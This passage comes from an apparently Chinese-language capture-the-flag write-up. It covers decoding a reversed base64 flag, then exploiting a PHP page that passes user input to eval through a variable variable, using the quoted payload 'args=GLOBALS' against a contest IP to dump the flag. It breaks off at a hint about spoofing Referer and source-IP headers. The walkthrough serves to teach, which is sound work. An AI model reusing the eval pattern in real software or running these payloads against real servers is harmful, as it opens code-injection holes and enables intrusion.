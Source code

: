             "datetime": "2015-11-16 21:37:12"
        }
    ]
}
发现在attached目录下有个flag_clue.php。直接访问获得

	=0nYvpEdhVmcnFUZu9GRlZXd7pzZhxmZ
看样子是反转后的base64。用python翻转然后解码得:

	ZmxhZzp7dXZlRG9uZUFncmVhdEpvYn0=
	
	flag:{uveDoneAgreatJob}

## default
[题目地址](http://218.76.35.74:20131/ "题目地址")

题目描述说
	
	描述：主页都没有了，就不要扫我了
那就上扫描器吧2333，御剑扫一下发现有index1.php,访问得

	flag 在变量里!
	<?php  

	error_reporting(0);
	include "flag1.php";	
	highlight_file(__file__);
	if(isset($_GET['args'])){
    	$args = $_GET['args'];
    	if(!preg_match("/^\w+$/",$args)){
        	die("args error!");
    	}
    	eval("var_dump($$args);");
	}
这题眼熟。。Bugku的Web-变量1.。

payload

	http://218.76.35.74:20131/index1.php?args=GLOBALS
返回

	array(7) { ["GLOBALS"]=> *RECURSION* ["_POST"]=> array(0) { } ["_GET"]=> array(1) { ["args"]=> string(7) "GLOBALS" } ["_COOKIE"]=> array(0) { } ["_FILES"]=> array(0) { } ["ZFkwe3"]=> string(38) "flag{F8871804DD8C20C66D2386B3E51ADEC4}" ["args"]=> string(7) "GLOBALS" } 
所以flag为

	flag{F8871804DD8C20C66D2386B3E51ADEC4}

## DrinkCoffee
[题目地址](http://218.76.35.75:65280/ "题目地址")

打开链接后有个提示

	Hint: Find the password to submit, but you should come from http://www.iie.ac.cn and your IP must be 10.10.20.1
用burpsuite抓包，从响应包的头里面找到password
